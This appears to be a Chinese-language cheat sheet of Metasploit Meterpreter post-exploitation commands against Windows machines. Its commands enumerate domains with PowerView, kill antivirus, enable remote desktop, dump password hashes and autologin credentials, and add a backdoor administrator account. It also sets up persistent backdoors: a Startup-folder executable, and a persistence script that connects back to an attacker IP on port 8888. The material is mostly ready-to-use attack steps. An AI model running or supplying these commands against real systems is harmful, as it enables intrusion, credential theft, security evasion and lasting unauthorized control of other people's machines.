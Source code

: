 ### 导入并执行PowerShell脚本：

1.  **如果powershell脚本是用于域内信息收集的，则获取到的权限用户需要是域用户**
2.  load powershell#加载powershell功能
3.  powershell_import /root/PowerView.ps1#导入powershell脚本，提前将该powershell脚本放到指定目录，msf自己有powershell脚本。
4.  powershell_execute Get-NetDomain#执行该脚本下的功能模块Get-domain，该模块用于获取域信息，一个脚本下通常有多个功能模块
5.  powershell_execute Invoke-UserHunter#该功能模块用于定位域管理员登录的主机
6.  powershell_execute Get-NetForest#该模块用于定位域信息

#### **Post后渗透模块：**

1.  该模块主要用于在取得目标主机系统远程控制权后，进行一系列的后渗透攻击动作。
2.  run post/windows/manage/migrate#自动进程迁移
3.  run post/windows/gather/checkvm#查看目标主机是否运行在虚拟机上
4.  run post/windows/manage/killav#关闭杀毒软件
5.  run post/windows/manage/enable_rdp#开启远程桌面服务
6.  run post/windows/manage/autoroute#查看路由信息
7.  run post/windows/gather/enum_logged_on_users#列举当前登录的用户
8.  run post/windows/gather/enum_applications#列举应用程序
9.  run post/windows/gather/credentials/windows_autologin#抓取自动登录的用户名和密码
10.  run post/windows/gather/smart_hashdump#dump出所有用户的hash

### run：

执行已有的模块，输入run后按两下tab，列出已有的脚本，可以使用payload，auxiliary的模块

### **远程登陆**:

拿到管理员权限之后，可以添加一个用户，然后加到管理员组里面，然后远程登陆

1.  查看目标主机有哪些用户：查看目标主机有哪些用户
2.  接下来，我们可以在目标系统中创建一个新的用户账号：run getgui -u hack -p 123，这个命令会创建用户，并把他添加到 Administrators 组中，这样该用户就拥有远程桌面的权限了。
3.  这里成功创建了用户，但是添加到Administrators组中失败了 !如果添加到Administrators组中失败了的话，我们可以运行：shell ，进行cmd窗口手动将该用户添加到administrators组中。
4.  **启用远程桌面：**
    -   首先，我们需要确保目标Windows设备开启了远程桌面功能（需要开启多个服务），不过我们的 getgui 脚本可以帮我们搞定。我们可以使用-e参数确保目标设备开启了远程桌面功能（重启之后同样会自动开启），我们输入：run getgui -e或者run post/windows/manage/enable_rdp
5.  在开启远程桌面会话之前，我们还需要使用“idletime”命令检查远程用户的空闲时长：idletime

### **生成持续性后门：**

1. **因为meterpreter是存活在内存中，当靶机关机，连接就断了，所以我们需要在靶机上留下一个后门，对面一开机就连上我们的攻击机了。**

2. 建立持续性后门有两种方法，一种是通过**启动项启动(persistence) ，**一种是通过**服务启动(metsvc)**

3. **启动项启动：**

    -   **先用msfvenom生成一个后门木马，就一个exe文件**
    -   **然后放到windows的启动目录中：**
        C:\\Users\\$username$\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup

    -   这样这个后门每次开机就都能启动了，然后我们只要相连就监听相应的端口就行了。

-   服务启动
    1.  run persistence -X -i5-p8888-r攻击机ip#反弹时间间隔是5s会自动连接攻击机ip的8888端口，缺点是容易被杀毒软件查杀
    2.  然后它就在目标机新建了这个文件：C:\\Windows\\TEMP\\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
    3.  我们在被攻击机可以看到这个文件，是一个VBScript脚本